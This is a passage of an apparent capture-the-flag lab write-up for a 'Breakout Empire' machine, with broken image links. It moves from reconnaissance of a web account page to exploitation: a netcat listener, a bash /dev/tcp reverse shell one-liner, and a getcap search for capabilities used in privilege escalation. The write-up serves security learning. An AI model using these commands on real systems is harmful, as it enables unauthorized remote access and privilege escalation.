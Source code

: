 ![Untitled 16.png](C:\Users\jonne\Documents\PDF\pdfs\Breakout%20Empire%20Lab%20fdb9113da04446b5a64c62f6e00d4359\Information%20Gathering%20and%20Disclosure%20c5425e0efbe14aa99112febdc67412b6\Untitled%2016.png)

Account information page

![Untitled 17.png](C:\Users\jonne\Documents\PDF\pdfs\Breakout%20Empire%20Lab%20fdb9113da04446b5a64c62f6e00d4359\Information%20Gathering%20and%20Disclosure%20c5425e0efbe14aa99112febdc67412b6\Untitled%2017.png)

Under applications you can upload and download files.

![Untitled 18.png](C:\Users\jonne\Documents\PDF\pdfs\Breakout%20Empire%20Lab%20fdb9113da04446b5a64c62f6e00d4359\Information%20Gathering%20and%20Disclosure%20c5425e0efbe14aa99112febdc67412b6\Untitled%2018.png)

But at the very bottom there is something even more interesting, a command line, shell access from this local user. Time for a reverse shell.

# Exploitation

I am going to begin exploiting though the local users command line interface.

![Untitled.png](C:\Users\jonne\Documents\PDF\pdfs\Breakout%20Empire%20Lab%20fdb9113da04446b5a64c62f6e00d4359\Exploitation%2085c292360268475db1a2d93f33048c00\Untitled.png)

```
nc -nvlp 4444
```

Host a webserver 

![Untitled 1.png](C:\Users\jonne\Documents\PDF\pdfs\Breakout%20Empire%20Lab%20fdb9113da04446b5a64c62f6e00d4359\Exploitation%2085c292360268475db1a2d93f33048c00\Untitled%201.png)

Reverse shell with bash

```bash
sh -i >& /dev/tcp/replacewithIP/replacewithportnumber 0>&1
```

![Untitled 2.png](C:\Users\jonne\Documents\PDF\pdfs\Breakout%20Empire%20Lab%20fdb9113da04446b5a64c62f6e00d4359\Exploitation%2085c292360268475db1a2d93f33048c00\Untitled%202.png)

![Untitled 3.png](C:\Users\jonne\Documents\PDF\pdfs\Breakout%20Empire%20Lab%20fdb9113da04446b5a64c62f6e00d4359\Exploitation%2085c292360268475db1a2d93f33048c00\Untitled%203.png)

![Untitled 4.png](C:\Users\jonne\Documents\PDF\pdfs\Breakout%20Empire%20Lab%20fdb9113da04446b5a64c62f6e00d4359\Exploitation%2085c292360268475db1a2d93f33048c00\Untitled%204.png)

![Untitled 5.png](C:\Users\jonne\Documents\PDF\pdfs\Breakout%20Empire%20Lab%20fdb9113da04446b5a64c62f6e00d4359\Exploitation%2085c292360268475db1a2d93f33048c00\Untitled%205.png)

Root directory

![Untitled 6.png](C:\Users\jonne\Documents\PDF\pdfs\Breakout%20Empire%20Lab%20fdb9113da04446b5a64c62f6e00d4359\Exploitation%2085c292360268475db1a2d93f33048c00\Untitled%206.png)

I had to google around to see what I can do from here and the first two searches of ‘cap_dac_read_search=ep’ are about privilege escalation.

nstead of doing it the way I did you can do a recursive search through the whole system with the following command

```
getcap -r / 2>/dev/null
```
